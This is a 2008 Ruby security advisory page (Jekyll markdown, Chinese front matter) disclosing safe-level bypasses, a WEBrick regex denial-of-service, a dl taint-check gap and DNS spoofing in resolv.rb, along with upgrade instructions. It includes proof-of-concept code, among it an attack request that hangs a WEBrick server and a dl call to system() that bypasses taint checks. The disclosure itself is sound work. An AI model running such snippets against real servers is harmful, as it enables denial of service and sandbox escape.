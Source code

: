 ```yaml
---
layout: news_post
title: "Ruby中的多個安全漏洞"
author: "SJH"
lang: zh_tw
---
```


Ruby中發現多個安全漏洞。建議更新到最新的版本。

## Details

The following vulnerabilities have been discovered.

### Several vulnerabilities in safe level

Several vulnerabilities in safe level have been discovered.

* untrace\_var is permitted at safe level 4.

      trace_var(:$VAR) {|val| puts "$VAR = #{val}" }

      Thread.new do
       $SAFE = 4
       eval %q{
         proc = untrace_var :$VAR
         proc.first.call("aaa")
       }
      end.join

* $PROGRAM\_NAME may be modified at safe level 4.

      Thread.new do
       $SAFE = 4
       eval %q{$PROGRAM_NAME.replace "Hello, World!"}
      end.join

      $PROGRAM_NAME #=> "Hello, World!"

* Insecure methods may be called at safe level 1-3.

      class Hello
       def world
         Thread.new do
           $SAFE = 4
           msg = "Hello, World!"
           def msg.size
             self.replace self*10 # replace string
             1 # return wrong size
           end
           msg
         end.value
       end
      end

      $SAFE = 1 # or 2, or 3
      s = Hello.new.world
      if s.kind_of?(String)
       puts s if s.size < 20 # print string which size is less than 20
      end

* Syslog operations are permitted at safe level 4.

      require "syslog"

      Syslog.open

      Thread.new do
       $SAFE = 4
       eval %q{
         Syslog.log(Syslog::LOG_WARNING, "Hello, World!")
         Syslog.mask = Syslog::LOG_UPTO(Syslog::LOG_EMERG)
         Syslog.info("masked")
         Syslog.close
       }
      end.join

These vulnerabilities were reported by Keita Yamaguchi.

### DoS vulnerability in WEBrick

WEBrick::HTTP::DefaultFileHandler is faulty of exponential time taking
requests due to a backtracking regular expression in
WEBrick::HTTPUtils.split\_header\_value.

Exploitable server:

    require 'webrick'
    WEBrick::HTTPServer.new(:Port => 2000, :DocumentRoot => "/etc").start

Attack:

    require 'net/http'
    res = Net::HTTP.start("localhost", 2000) { |http|
      req = Net::HTTP::Get.new("/passwd")
      req['If-None-Match'] = %q{meh=""} + %q{foo="bar" } * 100
      http.request(req)
    }
    p res

The request likely won\'t finish in this universe.

This vulnerability was reported by Christian Neukirchen.

### Lack of taintness check in dl
{: #label-3}

dl doesn\'t check taintness, so it could allow attackers to call
dangerous functions.

    require 'dl'
    $SAFE = 1
    h = DL.dlopen(nil)
    sys = h.sym('system', 'IP')
    uname = 'uname -rs'.taint
    sys[uname]

This vulnerability was reported by sheepman.

### DNS spoofing vulnerability in resolv.rb

resolv.rb allow remote attackers to spoof DNS answers. This risk can be
reduced by randomness of DNS transaction IDs and source ports, so
resolv.rb is fixed to randomize them.

* see also: [CVE-2008-1447][1]

This vulnerability was reported by Tanaka Akira.

## Vulnerable versions

1.8 series
: * 1\.8.5 and all prior versions
  * 1\.8.6-p286 and all prior versions
  * 1\.8.7-p71 and all prior versions

1.9 series
: * r18423 and all prior revisions

## Solution

1.8 series
: Please upgrade to 1.8.6-p287, or 1.8.7-p72.

  * [&lt;URL:https://cache.ruby-lang.org/pub/ruby/1.8/ruby-1.8.6-p287.tar.gz&gt;][2]
  * [&lt;URL:https://cache.ruby-lang.org/pub/ruby/1.8/ruby-1.8.7-p72.tar.gz&gt;][3]

1.9 series

: Please check out the latest version using Subversion.

      $ svn co https://svn.ruby-lang.org/repos/ruby/trunk ruby

Please note that a package that corrects this weakness may already be
available through your package management software.

## Credit

Credit to Keita Yamaguchi, Christian Neukirchen, sheepman, and Tanaka
Akira for disclosing these problems to Ruby Security Team.

## Changes

* 2008-08-08 12:21 +09:00 fixed the revision number of ruby 1.9.
* 2008-08-11 11:23 +09:00 ruby 1.8對這些漏洞的修正. 請見 [Ruby 1.8.7-p72 and
  1.8.6-p287 釋出][4]



[1]: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-1447
[2]: https://cache.ruby-lang.org/pub/ruby/1.8/ruby-1.8.6-p287.tar.gz
[3]: https://cache.ruby-lang.org/pub/ruby/1.8/ruby-1.8.7-p72.tar.gz
[4]: {{ site.url }}/zh_tw/news/2008/09/16/ruby-1-8-7-p72-and-1-8-6-p287-released/
